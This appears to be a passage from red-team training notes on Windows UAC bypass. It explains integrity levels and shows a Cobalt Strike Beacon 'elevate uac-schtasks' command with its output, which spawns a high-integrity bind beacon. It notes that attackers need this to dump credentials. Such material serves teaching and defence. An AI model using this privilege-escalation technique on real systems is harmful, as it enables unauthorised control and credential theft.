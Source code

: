 <figure><img src="../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

After clicking _**yes**_, the Command Prompt will open will sufficient privileges, appropriate for making system configuration changes, as it will now be running in _**High Integrity**_.

```
C:\Windows\system32>whoami /groups

Mandatory Label\High Mandatory Level
```

A "UAC Bypass" is a technique that allows for a _**Medium Integrity**_ process to elevate itself or spawn a new process in _**High Integrity**_, without prompting the user for consent.

Being in _**High Integrity**_ context is important for attackers because it's required for various post-exploitation actions such as dumping credentials.

**Beacon** has a few built-in UAC bypasses and a few more which are covered via the [Elevate Kit](https://github.com/cobalt-strike/ElevateKit) (pre-loaded in Cobalt Strike).&#x20;

These are exposed via the `elevate` command.

```
beacon> elevate uac-schtasks tcp-local
[*] Tasked Beacon to run windows/beacon_bind_tcp (127.0.0.1:4444) in a high integrity context
[+] established link to child beacon: 10.10.123.102
```

<figure><img src="../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>
